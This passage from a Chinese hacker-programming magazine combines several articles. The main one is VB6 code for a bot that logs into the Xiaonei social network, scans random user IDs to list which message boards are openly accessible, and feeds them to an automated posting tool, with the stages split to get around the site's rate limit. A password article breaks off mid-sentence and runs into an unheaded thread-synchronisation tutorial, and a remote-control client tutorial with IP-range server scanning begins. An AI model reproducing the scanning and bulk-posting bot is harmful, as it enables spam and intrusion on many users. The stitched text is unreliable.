            glStatus = RegSetValueEx(lIKeyID, psSubKey, 0&, REG_SZ, ByVal psKeyValue, Len(psKeyValue) + 1)
        End If
        ' 关闭键
        glStatus = RegCloseKey(lIKeyID)
    End If
End Sub
```

## 结语

此方法在 Windows 2000 及以上系统中均可使用，程序代码在 WINXP SP3 + VB6 + SP0 测试通过。

（文章中所涉及的相关代码及工具都已经收录在本期光盘）

### 编辑点评：

本文详细的阐述了如何从注册表编辑器中获取记录最后路径的注册表项，并利用注册表接口函数操作该项，达到简化操作的目的。

## VB 编写校内自动留言机 终结篇（上）

西北工业大学 RJ010807 李勃杰

> 从本文您可以学到：
> - 利用网页特殊字符实现隐私检测

09 年第四期杂志上冷风为我们提供了他用 VB 编写校内刷人气工具的思路，不过需要提出的是，校内的隐私设置造成了很多用户的页面根本无法直接访问，包括其留言板和个人主页。我使用自己编写的程序进行了大概的统计，在随机抽取的 164156 个 ID 中能够直接访问主页的用户仅仅只有千分之六。所以，他提出的“随便看看”之类的方法，效率是很低的。

我在早期的程序中也使用了类似的方法，最终因为效率太低而放弃了。今天我为大家提供另外一种思路，将用户的隐私批量检测和自动留言相结合，从而大大提高了程序的效率。至于为什么要将隐私批量检测和自动留言两个内容分开，是因为若不分开操作，校内的留言机制将导致你的留言操作不成功，得到的提示将是“你发言的速度太快！”。

## 编写用户隐私批量检测工具

用户隐私批量检测工具实现的原理是让用户使用自己的账号登录校内。程序产生一个随机起始 ID，然后从这个 ID 开始，依次访问后续 ID 值所对应用户的留言板。如果留言板可以访问，则将该 ID 加入列表框中。用户可以在检测过程中中止操作，中止后程序将可用的 ID 写入一个文本文件中，留作后面的自动留言程序使用。

程序使用的主要控件有 3 个 TextBox、4 个 Command 按钮、2 个 ListBox、1 个 Inet 控件和 1 个 WebBrowser 控件（宽和高都设置成了 1，用户不可见，用于用户登录操作），窗体布局如图 1 所示。

在程序通用部分，我们对一些全局变量进行声明：

```vb
Dim check As Integer 'check 的值为当前程序的状态
Dim login As Boolean 'login 变量表示当前是否登录校内
Dim userid As Long '目前程序正在检测的用户 id
Dim haveadd As Boolean '是否已经添加到列表框中
Option Explicit '强制变量声明
Dim n As Long '产生一个随机起始用户 ID
```

接下来为窗体载入事件添加代码，用于产生一个随机起始用户 ID，这个随机数介于 230000000 到 239999999 之间，这也是校内的可用 ID 段，代码如下：

```vb
Private Sub Form_Load()
    Randomize '产生一个随机数种子
    n = Int(230000000 + Rnd * 10000000) '产生一个 230000000 到 239999999 之间的随机数
    userid = n '初始当前检测的用户 ID
    idtext.Text = n '在 idtext 文本框中显示这个随机数
    WebBrowser1.Silent = True 'silent 属性设置成 true，防止网页出现脚本错误
End Sub
```

用户输入用户名和密码之后，点击“登录”按钮进行登录。为了方便，我们在程序当前目录下生成一个 HTML 临时文件，完成校内的登录操作，其代码如下：

```vb
Private Sub Command4_Click()
    '尝试登录
    If Text1.Text <> "" And Text2.Text <> "" Then '如果用户名和密码都不为空
        List1.AddItem "程序开始尝试登录，请稍等......" '在进度列表中添加状态
        check = 1 '程序状态变为 1
        Open App.Path & "\temp.html" For Output As #1 '创建一个 temp.html 临时文件，表单中填写必须的信息
        Print #1, "<form name=xiaonei action=http://login.xiaonei.com/Login.do method=post>"
        Print #1, "<input type=text name=email value=" & Trim(Text1.Text) & ">"
        Print #1, "<input type=password name=password value=" & Trim(Text2.Text) & ">"
        Print #1, "<input type=submit>"
        Print #1, "</form>"
        Close #1
        WebBrowser1.Navigate App.Path & "\temp.html" '用 webbrowser1 打开这个临时 html 文件
    Else
        MsgBox "邮箱和密码都不能为空！您的输入有误！", vbCritical, "校内刷人气工具 Beta 1.0" '给出错误提示
    End If
End Sub
```

当 WebBrowser 打开 temp.html 文件后，会触发一个 DocumentComplete 事件，在其中编写代码可以完成登录操作，代码如下：

```vb
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    On Error Resume Next '容错，防止因为表单元素不存在出现错误
    Select Case check '对程序状态 check 进行选择
        Case 1 '程序状态为 1，表明用户正在登录
            On Error Resume Next
            WebBrowser1.Document.Forms("xiaonei").submit '将表单 xiaonei 提交
            check = 2 '程序状态变为 2
        Case 2 '已经开始登录了
            Dim spe As String '声明字符串变量 spe，用来存放网页 body 中的 html 代码
            spe = WebBrowser1.Document.body.innerHTML
            If InStr(spe, "登录账号或密码错误，请重试") Then '如果代码中用错误提示关键字，则登录失败
                MsgBox "您输入的账号或密码有错，请重新输入！！", vbCritical, "校内刷人气工具 Beta 1.0" '失败提示
                List1.AddItem "用户名或密码错误" '程序进程列表添加错误信息
                check = 1 '程序状态恢复到 1
            Else
                List1.AddItem "账号登录成功，您可以开始检测！" '将登录成功的账号添加到进程信息列表中
                check = 3 '程序状态变为 3
                login = True '校内已经登录
                Kill App.Path & "\temp.html" '删除临时文件 temp.html
            End If
        Case 999
            If WebBrowser1.Document.URL = "http://www.xiaonei.com/SysHome.do" Then '如果当前的 url 是退出后的页面
                List1.AddItem "您的校内账号已经退出" '将退出信息添加到进度提示列表框中
                MsgBox "您的校内账号已经成功退出", vbInformation, "校内网头像批量下载器 Beta 1.0" '弹出提示框
                login = False '校内的登录状态变为 false
            End If
    End Select
End Sub
```

用户登录成功以后，我们可以使用 Inet 控件开始访问用户的留言页面，批量检测其隐私设置。“批量检测隐私设置” 按钮的事件代码如下：

```vb
Private Sub Command1_Click()
    While Inet1.StillExecuting '如果还在执行操作，则等待操作完成
        DoEvents
    Wend
    Inet1.Execute "http://xiaonei.com/getgossiplist.do?id=" & idtext.Text & "&age=recent" '打开用户留言页面
End Sub
```

使用 Inet 的 Execute 方法访问用户留言页面之后，将触发一个 StateChanged 事件，通过该事件，我们可以让程序一直循环下去，依次检测后续用户的隐私设置。相关代码如下：

```vb
Private Sub Inet1_StateChanged(ByVal State As Integer)
    Dim stemp As String '声明一个临时字符串
    Dim sall As String '字符串 sall 用于存放获取的网页完整代码
    If State = 12 Then '如果数据获取完毕，即 icResponseCompleted
        sall = "" '网页的完整代码初始为空字符
        stemp = Inet1.GetChunk(1000) '获取前 1000 字节的数据
        While stemp <> "" '如果前 1000 字节数据不为空
            sall = sall & stemp '添加到 sall 字符串中
            stemp = Inet1.GetChunk(1000)
        Wend '循环直至获取完整页面数据
        If InStr(sall, "http://xnimg.cn/imgpro/bg/404.png") Then
            '如果代码中存在关键字 http://xnimg.cn/imgpro/bg/404.png，表明该用户页面不可访问
        Else
            List2.AddItem idtext.Text '该用户页面可以访问，添加到可用列表
        End If
        idtext.Text = Val(idtext.Text) + 1 'idtext 文本框中的值增加 1
        Inet1.Execute "http://xiaonei.com/getgossiplist.do?id=" & idtext.Text & "&age=recent" '程序访问后续用户的页面
    End If
End Sub
```

需要注意的是，上面的代码中我将 “http://xnimg.cn/imgpro/bg/404.png” 作为关键字，用来判断用户页面是否可以访问。而这个关键字由于校内的升级，可能是会改变的，我们只需访问任意一个禁止访问的用户留言板页面，然后根据返回页面 HTML 代码中的特征字符自己修改就可以了。

前面的代码已经实现了循环访问用户留言页面，下面为 “暂停” 按钮添加相应的代码：

```vb
Private Sub Command6_Click()
    Inet1.Cancel '强制退出 inet1 进程
    Open App.Path & "\可用账号.txt" For Binary Access Write As #1 '打开当前目录下的可用账号.txt 文件，不存在则创建
    Dim i As Integer '声明循环计数变量 i
    For i = 1 To List2.ListCount
        Put #1, LOF(1) + 1, List2.List(i - 1) & vbCrLf '将列表框中的所有项目添加到 “可用账号.txt” 中
    Next
    Close #1
    MsgBox "已将可用账号写入文件", vbInformation, "校内刷人气工具 Beta 1.1" '提示写入完毕
    List2.Clear
End Sub
```

用户单击 “退出” 按钮可退出校内的登录，代码如下：

```vb
Private Sub Command5_Click()
    '点击按钮退出校内
    WebBrowser1.Navigate "http://www.xiaonei.com/Logout.do"
    check = 999 '程序状态变为 999
End Sub
```

当用户双击可用 ID 列表中的某一项时，我们将其复制到剪贴板中，代码如下：

```vb
Private Sub List2_DblClick()
    Clipboard.Clear '先清空剪切板
    Clipboard.SetText List2.List(List2.ListIndex) '将选中的项复制到剪切板
End Sub
```

### 总结

至此，用户隐私批量检测工具的编写就结束了，该工具的效率是比较高的，它可以快速地检测哪些用户的留言板我们可以直接访问，从而避免了使用 WebBrowser 一个一个地尝试。这里我只使用了一个线程，为了实现多线程，可以在窗体中增加几个 Inet 控件，建立控件数组，使用相同的代码即可。

（文章中所涉及的相关代码及工具都已经收录在本期光盘中）

#### 编辑点评：

这个补充还是很实用的，可以算作一个通用模块了，只要稍加修改，就可以按照自己想要的功能进行添加了。

## 汉字密码为 WEB 安全保驾护航

园菜客.爱梅小礼

### 从本文您可以学到：

- 利用 JS 实现汉字密码的输入

今天给大家带来的是汉字密码的 WEB 应用，与传统的字母密码相比，汉字密码在人性化方面更符合中国人的习惯，便于我们记忆；在安全性方面，汉字密码又是传统密码无法比拟的。拥有如此的优势，我们为何不用用呢？下面，且听我一一道来。

现有 6 位 “字母 + 数字” 形式的密码，这样就有 36⁶ (约 21 亿) 种可能的密码组合。虽说这个数貌似不小，但经受不住几天几夜的暴力破解。而汉字密码却不同，常用的汉字就有 3500 个，忽略与数字的组合，6 位的密码组合就有 3500⁶ 种，使用暴力破解几乎不可能！

现在的网站常把密码用 MD5 加密后放入数据库，如果我们用的是汉字密码，对手拿到了 MD5 散列，假若不具备散列分析能力 (实际上绝大部分的攻击者都达不到这个水平)，只考虑常规的破解方式来破解的话，难度之大！

比如我们把最常用的汉字 “我” 进行 MD5 加密，效果为 172e5e0eb144f791，然后到主流的破解网站 CMD5 和 XMD5 去查询，没有结果，如图 1 所示。

然后按照常规的思路进行本地暴力破解，我发现主流...

图 1 没有查询到结果

所谓并发性指的是两个或者两个以上的事件在同一时间间隔内同时发生（是一个线的概念）！

多任务其实就是在人类不可感知的时间片下的单任务，系统为每个进程分配一个时间片，在这个时间片下 CPU 只能有一个进程执行，如图 1 所示，CPU 调度分给每一个进程一段执行的时间！


再次，对抢占式的理解，为了实现多任务，Windows 3.x 中使用了一种协作式多任务的方式，类似于如图 2 所示的描述。


系统中每个进程包括系统进程在内，都在等待 CPU，得到 CPU 就将进程执行一段时间，但是这只是一个“鸡肋”，因为如果说某一个进程得到 CPU 后没有返回 CPU 的操作，那么系统中所有的进程，包括一些维持操作运行的系统进程都只能等下去。这时候我们就说死机了！这种方式太“理想化”，所以有了比较“现实”的抢占式，也就是说 CPU 被进程使用一段时间后，都由操作系统强制将其收回！

## 进程与线程概念的引入

我们知道程序是不能并发执行的，因为它是一个静态的，所以人们引入了进程的概念，它是一个动态的可执行实体。进程的结构我们可以简单的理解为由代码、数据和 PCB 组成。PCB (Process Control Block) 为进程控制块，是进程组成的灵魂，它类似于下面的一个结构（我自己想的，才读了一年的计算机专业）：

```cpp
struct pcb
{
  int pid;
  char processstatus[size];
  char cpustatus[size];
  char processcontrol[size];
};
```

当程序变为进程的时候，PCB 就存储在内存中，系统通过 PID 识别是哪一个进程，通过进程当前的状态决定要进行的操作，并通过上次进程获得 CPU 执行的状态和进程控制信息来决定本次进程获得 CPU 后要进行的操作！

并发执行环境下，操作系统不停的给进程调度 CPU，但是有的进程实在太大，调度需要的时间相应的就会增加，这样就降低了并发执行的效率，所以人们才引入了线程。通过调度线程来实现进程的并发执行是 WINDOWS 比较高明的地方，我们可以执行下面的代码来看一下效果！

```cpp
int main(int argc, char *argv[])
{
  cout<<"hello world 程序"<<endl;
  cout<<" 进程 PID: "<<GetCurrentProcessId()<<endl;
  cout<<" 主线程 ID: "<<GetCurrentThreadId()<<endl;
  HANDLE hpro=GetCurrentProcess();
  HANDLE hthread=GetCurrentThread();
  return 0;
}
```

执行结果如图 3 所示。


说明在 Windows 系统中每个程序在变成进程的时候不仅会得到一个进程 PID，还会分配到一个主线程的 ID！在并发执行的时候，Windows 调度的其实就是主线程，而不是程序的进程，虽然线程可以并发执行，但是它不是一个实体，它必须借助于一个进程而存在，这就是为什么 Windows 采用线程并发执行却仍然使用进程的原因，这个特点在下面的实例中我们可以得出证明！

## 进程的控制

主要控制进程的四种状态——就绪（创建过程）、阻塞（结束过程）、运行和挂起！

- **1. 进程创建**
  当我们登录 Windows 或者需要服务及运行应用程序的时候，都会创建新的进程。我们先来看一个操作系统创建一个进程的时候都做了什么。从前面我们了解到，进程的核心是 PCB，所以进程在创建的时候首先要向系统申请一个空的 PCB，PCB 可以通过链表或者队列来管理，然后就给进程分配一定的内存空间，再填写 PCB 各结构的内容，包括 PID 等信息，最后将进程投入到就绪队列！
  从应用程序角度来说，PCB 就相当于进程的一个内核对象，当我们使用 CreateProcess() 创建一个进程的时候系统会将进程、主线程的 PID 及其句柄保存到 PROCESS_INFORMATION 结构体中，然后操作系统通过这样的结构来实现对所有进程的管理！

- **2. 进程的撤销**
  进程的撤销本质上是 PCB 的撤销，在 WINDOWS 系统中提供了 TerminateProcess() 来结束进程。

- **3. 进程的阻塞**
  进程的阻塞有两种情况，一种是硬件资源导致的阻塞，一种是软件资源导致的阻塞，比如 CPU 在某一个时间片中将打印机分配给了进程 a.exe，这时候 b.exe 如果要使用打印机，但因为得不到打印机就进入阻塞状态。当打印机空闲的时候，阻塞状态的进程 b.exe 就会被 a.exe 唤醒！当然，有些进程因为软件资源也可能导致进程的阻塞，在 WINSOCK 编程中，服务端执行到 accept() 时就会进入阻塞状态，只有当有客户端连接服务端的时候才会被唤醒。

- **4. 进程的挂起**
  有时候为了控制计算机的负荷，我们需要将一些程序挂起，在 Windows 中可以通过 SuspendThread() 挂起进程的主线程，从而实现进程的挂起。当然，也可以使用 ntdll.dll 中的 ZwSuspendProcess() 来挂起进程，不过因为在 DLL 文件中我们必须将其导出才可能使用，当要释放挂起的进程或者线程时我们可以使用 ResumeThread() 或者 ZwResumeProcess() 来实现！

我写的一个进程管理的程序运行如图 4 所示，它的挂起方法就是通过导出函数来进行的，导出函数可以在 DLL 编程入门那节中学到。


## 线程的同步

进程的同步在 Windows 中并不是一个值得讨论的话题，因为在上面我们已经提到，Windows 是一个线程并发的系统，更重要的一个原因是因为 Windows 在内存管理中已经提供了进程的内存保护机制，也就是说根本就不用担心一个进程会影响另一个进程。

举例说明，在 32 位的 Windows 系统中，内存可以使用 4GB 的地址空间，这 4G 的地址空间并不是都给了应用程序，因为 Windows 本身采用的是微内核技术，一些内核程序也需要执行，它的分段如图 5 所示。


我们可以通过如下代码查看应用程序所使用的内存量：

```cpp
int main(int argc, char *argv[])
{
    SYSTEM_INFO sysinfo;
    GetSystemInfo(&sysinfo);
    cout << " 用户独享的内存空间：" << sysinfo.lpMinimumApplicationAddress << "------" << sysinfo.lpMaximumApplicationAddress << endl;
    return 0;
}
```

程序的执行结果是 0x0001 0000----7FFE FFFF。当然，如果你在 boot.ini 中作了修改，那就不一样了。如上所说，所以 Windows 进程同步的关键问题转化为了线程同步问题，当然线程同步可以使用进程同步的一些方法。

### 1. 临界区
线程之间的交集称为临界资源，在程序中访问临界资源的代码我们称为临界区，它的原理和互斥锁差不多，所以我们在下面的互斥锁中进行说明！

### 2. 互斥锁
互斥锁，我们可以更形象的称为互斥所（厕所的所），我们去厕所的时候首先判断厕所内是否有人，如果没有人我们进去。进去后会将门锁上，使用完毕后才打开门锁，别人看到我们出来了才会进去。我们进厕所的时候，因为上了锁，别人打不开门，从而知道厕所（可以理解为临界资源）不能用，所以才会在外面等待。当我们出来的时候，表示厕所（临界资源）可用，其他人才会进入厕所。

### 3. 信号量
在 Windows 中，信号量机制与上面说的临界区和互斥锁机制完全不一样，主要的不同点在于线程同步上。信号量允许多个线程同时使用共享资源，这与操作系统中的 PV 操作相同，它指出了同时访问共享资源的线程最大数目，它允许多个线程在同一时刻访问同一资源，但是需要限制在同一时刻访问此资源的最大线程数目。

上面是一般操作系统使用的三种进程或者线程同步方法，在 Windows 中还使用了事件内核对象的线程同步方法！说了上面的三种方法，到现在也许你还不能够明白为什么要让线程同步，我们看看下面的例子。

```cpp
//test.cpp
int a=0,b=0;
bool con=TRUE;
DWORD WINAPI Thread(LPVOID lpParam)
{
    while(con)
    {
        a++;
        b++;
    }
    return 0;
}

int main(int argc, char *argv[])
{
    HANDLE hthread[2];
    DWORD threadid;
    hthread[0]=CreateThread(NULL, NULL, Thread, NULL, 0, &threadid);
    hthread[1]=CreateThread(NULL, NULL, Thread, NULL, 0, &threadid);
    Sleep(1000);
    con=FALSE;
    WaitForMultipleObjects(2, hthread, TRUE, INFINITE);
    cout << a << " " << b << endl;
    CloseHandle(hthread[0]);
    CloseHandle(hthread[1]);
    return 0;
}
```

执行结果不一样，如图 6 所示。


从这个例子我们可以得出两个结论：

- (1) Windows 是一个线程并发执行的系统，在前面的例子中我们看到了每个程序 in Windows 中执行的时候都会分配一个主线程 ID，同一个进程内的非主线程和主线程一起实现并发执行。如果不是这样，那么上面的程序就会进入死循环。但是之所以能看到如图 6 的结果，是因为主线程在某一时刻可以得到 CPU，从而执行 Sleep() 和 con=FALSE 语句！
- (2) 通过如图 6 的结果我们知道进程并不是我们想象的顺序执行了，因为是在并发环境中，每个线程执行的时候都不是封闭的，都可能受到其它线程的影响，所以这个结果是不会相等的！这时候我们可以使用上面提到的线程同步的方法来进行！

### A. 临界区法
临界区在 WINDOWS 中被定义为了 CRITICAL_SECTION 结构，当一个临界区被创建后，我们必须调用 InitializeCriticalSection 对其进行初始化，类似于进厕所的时候先将门上的锁打开，这样进入厕所的人才知道厕所现在是可用的。每次进入厕所的时候必须使用 EnterCriticalSection()，表示厕所的门关上了，其他人不能进入。当离开的时候，只要再调用 LeaveCriticalSection() 打开厕所的锁，其他的人才可以使用。

```cpp
CRITICAL_SECTION cs;
int a=0, b=0;
bool con=TRUE;

DWORD WINAPI Thread(LPVOID lpParam)
{
    EnterCriticalSection(&cs);
    while(con)
    {
        a++;
        b++;
    }
    LeaveCriticalSection(&cs);
    return 0;
}

int main(int argc, char *argv[])
{
    HANDLE hthread[2];
    DWORD threadid;
    InitializeCriticalSection(&cs);
    hthread[0]=CreateThread(NULL, NULL, Thread, NULL, 0, &threadid);
    hthread[1]=CreateThread(NULL, NULL, Thread, NULL, 0, &threadid);
    Sleep(1000);
    con=FALSE;
    WaitForMultipleObjects(2, hthread, TRUE, INFINITE);
    cout<<"a="<<a<<" "<<"b="<<b<<endl;
    DeleteCriticalSection(&cs);
    CloseHandle(hthread[0]);
    CloseHandle(hthread[1]);
    return 0;
}
```

上面的代码执行后结果是一样的，如图 7 所示。


### B. 互斥锁法
Windows 中提供了很多方便用户实现线程同步的互斥锁函数，上面的例子我们通过 InterlockedIncrement() 就可以实现线程的同步，代码如下：

```cpp
//InterlockedIncrement.cpp
DWORD WINAPI Thread(LPVOID lpParam)
{
    while(con)
    {
        InterlockedIncrement((long *)&a);
        InterlockedIncrement((long *)&b);
    }
    return 0;
}
```

### C. 事件内核对象
Windows 提供了一种新的线程同步的方法，其实这源于线程的内核对象，在线程的内核对象中受信状态由 WaitForSingleObject() 或者 WaitForMultipleObjects() 来返回，当一个线程执行完毕后才会将内核对象中相应的位置设置成受信状态。

如果我们让每个线程函数的第一句为 WaitForSingleObject()，这样线程函数的执行就能通过受信任状态来控制，才能引入事件内核对象。可以用 CreateEvent() 来创建一个事件内核对象，它会返回内核对象的句柄，然后我们通过 SetEvent() 和 ResetEvent() 来设置其受信状态，从而实现控制线程函数的执行。代码如下：

```cpp
//event.cpp
DWORD WINAPI Thread(LPVOID lpParam)
{
    WaitForSingleObject(ConEve, INFINITE);
    while(con)
    {
        a++;
        b++;
    }
    return 0;
}
```

### D. 信号量实现法
这种方法在线程同步中一般通过调用 CreateSemaphore() 等 API 来实现，要彻底的理解这个概念，需要仔细的找些资料，因为基于信号量机制的方法及分类太多了，我自己都被搞的糊里糊涂，希望有高人指点一下！

## 进程通信

### 1. 通信要解决的问题
在说明 Windows 下进程通信之前，我想我们该理解一下通信这个概念，我觉得用高中数学中的集合理解它最简单。现实中不管我们采用什么样的通信方式，都必须有两个操作——发送和接收，我们将它定义为一个集合—operate。那么我们就可以写成集合 operate={send, receive}，接下来的问题就可以分为三个！

- **A. 谁操作谁的问题**
  也就是表明发送者 sender 和接收者 receiver 的名字问题。在 WINSOCK 中使用的是 socket 套接字来描述 sender 和 receiver，在 Windows 消息机制中可以使用标题，下面会举例说明。在基于 netbios 通信的网络中使用的是 netbios 名称，默认状态下使用的就是计算机的名字，我们可以通过执行 nbtstat 命令来查看。

- **B. 怎么操作**
  相对于编程来说，我们要做的就是写两个函数，send(receiver, message) 和 receive(sender, message) 来用于实现 operate 集合的操作就可以了。

- **C. 信息的格式**
  最后一个问题就是让 message 使用什么样的格式。在 TCP/IP 中使用的是将数据包加头的方法，这个过程称为封装，在 Windows 消息机制中使用的是 msg 结构体。

### 2. 通信方式
操作系统中的进程通信一般使用共享存储方式、管道方式和消息方式！

在 WINDOWS 中这三种都使用了，其中管道方式（牵涉到后门的编写）和消息方式是我们比较关心的，因为消息方式是 Windows 图形界面使用的方式，它可以分为如图 8 所示的直接消息机制和如图 9 所示的间接消息机制。


我们可以使用 API 函数——SendMessage() 发送信息，代码如下：

```cpp
#include <windows.h>
#include <iostream>
using namespace std;
int main(int argc, char *argv[])
{
    HWND hwnd;
    if((hwnd=FindWindow(NULL, "未命名 - 画图"))!=NULL)
    {
        SendMessage(hwnd, WM_CLOSE, 0, 0);
    }
    return 0;
}
```

当我们在“开始”菜单“运行”中输入 mspaint.exe 打开画图程序后，执行上面的代码，画图程序就会关闭，这就是一个 Windows 下消息通信的简单示例。对于操作系统来说，Windows 消息机制其实采用的就是消息缓冲队列机制，通过建立消息队列通信数据结构，结合使用 send() 和 receive() 原语来实现进程的通信！

管道方式，所谓管道 (PIPE) 其实是一个文件，它的作用就是连接一个读进程和一个写进程进行通信。如果让我们实现这种通信方式的话，我觉得使用 C++ 的流操作就可以实现。对于应用程序来说，在 Windows 中可以使用 CreatePipe() 创

## 远程控制软件编程
重庆通信学院地域通信教研室 杨阳 王孟智

### 之套接字阻塞模式

- 从本文您可以学到：
- 1. 简单了解 VC++ 的使用方法
- 2. 掌握套接字阻塞模式的使用

我们在前面几篇文章中介绍了远程控制软件编写的方法，从本篇文章开始，我们介绍基于不同模式与不同模型套接字的远程控制软件的编写。

Windows Sockets 分别提供了套接字模式和套接字 I/O 模型，可以对一个套接字的行为进行控制。套接字模式用于当一个套接字被调用时，决定调用函数的阻塞行为。套接字模式分为阻塞和非阻塞两种工作模式。

套接字 I/O 模型描述了一个应用程序如何对套接字的 I/O 进行管理。套接字的模型包括：Select 模型、WSAAsyncSelect 模型、WSAEventSelect 模型、重叠 I/O 事件通知模型、重叠 I/O 完成例程模型以及完成端口模型等。

本文涉及的程序是基于套接字阻塞模式的，接下来我们看一下，什么是套接字的阻塞模式。

### 一、套接字阻塞模式

在阻塞模式下，套接字 I/O 操作完成前，执行的操作函数将一直等候而不会立即返回，该函数所在的线程会阻塞在这里。

比如，程序调用 recv() 函数接收数据时，如果没有数据从套接字中发送过来，则程序处于等待状态，不会进行其他的套接字 I/O 操作。只有接收到从套接字发送过来的数据之后，recv() 函数才会返回，程序继续向下执行，如图 1 所示。

### 二、阻塞模式客户端

在 2009 年第 4 期《黑客手册》的“远程控制软件编程之界面编写”（以下简称“远”文）一文中，我们学习了远程控制软件界面的编写，本文涉及的程序以“远”文中的程序为基础进行编写。

连接了服务端后的客户端界面如图 2 所示。

#### （一）搜索服务端的对话框

在程序资源的对话框文件夹中添加一个名为“IDD_SEARCHHOST”的对话框，并按如图 3 所示设置该对话框。

其中，“IP 地址范围”栏用于输入要搜索的服务端 IP 地址的起始值和终止值。接下来为用于输入起始 IP 与终止 IP 的 IP 地址控件分别添加名为 m_IPStart 与 m_IPEnd 的成员变量，其类型均为 CIPAddressCtrl。为用于输入服务端端口的文本编辑框控件添加一个类型为 CString，名称为 m_Port 的成员变量。

之后，在菜单栏的“查看”菜单中选择“建立类向导”，为搜索服务端的对话框创建一个名为 CSearchHostDlg 的类，该类对应的头文件和执行文件分别为 SearchHostDlg.h 和 SearchHostDlg.cpp。

#### （二）客户端工具栏中用于搜索服务端的按键

“远”文中已经介绍了如何设置客户端工具栏的按键，接下来我们讲解如何对工具栏的按键进行编程，也就是当按下工具栏中的某一按键后，会跳出搜索服务端的对话框来。

选择菜单栏中的“查看”，之后在下拉菜单中选择“建立类向导”，在跳出的“MFC ClassWizard”对话框中的“Object IDs”选项中选择客户端菜单栏中某一按键的 ID。接下来在 “Message” 栏中选择 “COMMAND”，之后点击对话框右侧的 “Add Function” 按键，为该按键添加 COMMAND 消息的响应函数。也就是说，当有用户操作鼠标点击该按键时，程序会调用该响应函数。点击对话框右侧的 “Edit Code” 对该响应函数进行编程，代码如下：

```cpp
CSearchHostDlg dlg;
dlg.DoModal();
```

第 1 行声明 CSearchHostDlg 类的对象 dlg，第 2 行通过 dlg 调用 CDialog 类的成员函数 DoModal() 显示该对话框。由于在响应函数中使用了 CSearchHostDlg 类，因此在 MainFrame.cpp 执行文件中要包含声明该类的头文件，代码如下：

```cpp
#include "SearchHostDlg.h"
```

#### （三）CBlockHostTreeView 类

在 “远” 文中我们提到，客户端主界面中用于显示连接的服务端控件是 “CRadminTreeView”。在本文涉及的程序中，使用 CBlockHostTreeView 类代替 CRadminTreeView，其创建的步骤是相同的。

在图 2 中大家可以看到，该类用于显示上线的服务端，因此应该在 CMainFrame 类中包含该类。首先在 CMainFrm.h 头文件中声明一个公共的成员变量，代码如下：

```cpp
CBlockHostTreeView* m_pTreeHost;
```

另外，在 CMainFrm.h 头文件中还应包含声明该类的头文件，代码如下：

```cpp
#include "BlockHostTreeView.h"
```

接下来在 CMainFrm.cpp 执行文件中的 OnCreateClient 函数的结尾处写入如下代码：

```cpp
m_pTreeHost = (CBlockHostTreeView*)m_wndSplitter.GetPane(0, 0);
```

其中，m_wndSplitter 是 CSplitterWnd 类的对象，通过该对象调用的 CSplitterWnd 类的成员函数 GetPane() 的作用是得到指定行列的窗格 (pane)。第一个参数表示指定的行数，0 表示第一行；第二个参数表示指定的列数，0 表示第一列。

以上代码的含义是得到客户端主界面中第一行第一列的窗格，与该窗格相关联的是 CBlockHostTreeView 类。在后面的编程过程中，我们都是通过 CMainFrame 类的成员变量 m_pTreeHost 将得到的服务端信息插入到 CBlockHostTreeView 类对应的窗格中。

#### （四）搜索服务端的对话框中 “开始搜索” 按键

接下来我们对搜索服务端的对话框中 “开始搜索” 按键进行编程。在 “查看” -> “建立类向导” 的 “MFC ClassWizard” 对话框中，“Class Name” 项选择 “CSearchHostDlg”，“Object IDs” 项中选择 “开始搜索” 按键的 ID，“Message” 项中选择 “BN_CLICKED”，之后选择右侧的 “Add Function” 按键，为 “开始搜索” 按键添加一个对 BN_CLICKED 消息的响应函数，函数名设置为 “OnSearch()”。

当有用户操作鼠标点击了 “开始搜索” 按键后，程序就会调用 OnSearch() 函数。最后，选择右侧的 “Edit Code” 按键，对 OnSearch() 函数进行编写。

- 1. 对用于显示服务端的树状视图控件进行初始化

对树状视图控件初始化，首先要得到该控件的参考 (reference)。在 OnSearch() 函数中，有如下代码：

```cpp
CMainFrame* wMainFrame = (CMainFrame*)AfxGetApp()->GetMainWnd();
CTreeCtrl& tree = wMainFrame->m_pTreeHost->GetTreeCtrl();
```

在第 1 行中，AfxGetApp() 函数返回应用程序的单个 CWinApp 类对象的指针，通过该指针调用 CWinThread 类的成员函数 GetMainWnd() (CWinApp 类是 CWinThread 类的派生类)，该函数返回窗口类型的指针。

第 1 行代码的作用是得到本程序中 CMainFrame 类的指针 wMainFrame。因为使用了 CMainFrame 类，因此在 SearchHostDlg.cpp 文件的起始部分要加入声明该类的头文件，代码如下：

```cpp
#include "MainFrm.h"
```

第 2 行中，通过 CMainFrame 类的成员变量 m_pTreeHost (CBlockHostTreeView 类的指针) 调用 CTreeView 类的成员函数 GetTreeCtrl()，得到用于显示服务端的树状视图控件的参考。

接下来根据得到的控件参考调用 CTreeCtrl 类的成员函数 DeleteAllItems()，删除树状视图控件中的所有项，完成初始化操作。

```cpp
tree.DeleteAllItems();
```

- 2. 服务端 IP 地址格式的转换

接下来我们对用户在搜索服务端对话框中输入的服务端 IP 地址的格式进行转换。在 OnSearch() 函数中，有如下代码：

```cpp
1.  CString addrstart, addrend;
2.  m_IPStart.GetWindowText(addrstart);
3.  m_IPEnd.GetWindowText(addrend);
4.  if(addrstart > addrend)
5.  {
6.      AfxMessageBox("第二个地址必须大于第一个地址!");
7.      return;
8.  }
9.  ULONG lStart = inet_addr(addrstart);
10. ULONG lEnd = inet_addr(addrend);
11. ULONG lSub = lEnd - lStart + 1;
12. HTREEITEM item = tree.InsertItem("搜索到的服务器", 0, 0);
```

其中，第 1-3 行将用户输入在 IP 地址控件中的数据保存为 CString 格式。m_IPStart 和 m_IPEnd 分别是对话框中两个 IP 地址控件的成员变量，通过以上两个成员变量调用 GetWindowText() 函数将用户输入的 IP 地址保存在 addrstart 和 addrend 中。

第 4-8 行对用户输入的 IP 地址范围进行判断，如果用户输入的起始 IP 地址大于终止 IP 地址，则跳出对话框提示用户重新输入。

第 9-10 行将用户输入的 IP 地址变为无符号长整型。inet_addr() 函数将点型的 IP 地址 (如 127.0.0.1) 转化成符合 IN_ADDR 结构的无符号长整型。

第 11 行得到要搜索的服务器数量。第 12 行通过 tree 调用 CTreeCtrl 类的成员函数 InsertItem()，在树状视图控件中插入新项。InsertItem() 的第一个参数表示插入项的内容；第二个参数表示该项的图标在整个图像列表中的索引号，0 表示使用图像列表中索引号为 0 的图标来表示插入的该项；第三个参数表示插入的该项被选中后使用图像列表中的哪个图标来表示该项，0 表示选中该项后，仍然使用索引号为 0 的图标来表示该项。

- 3. SearchFun() 函数的编写

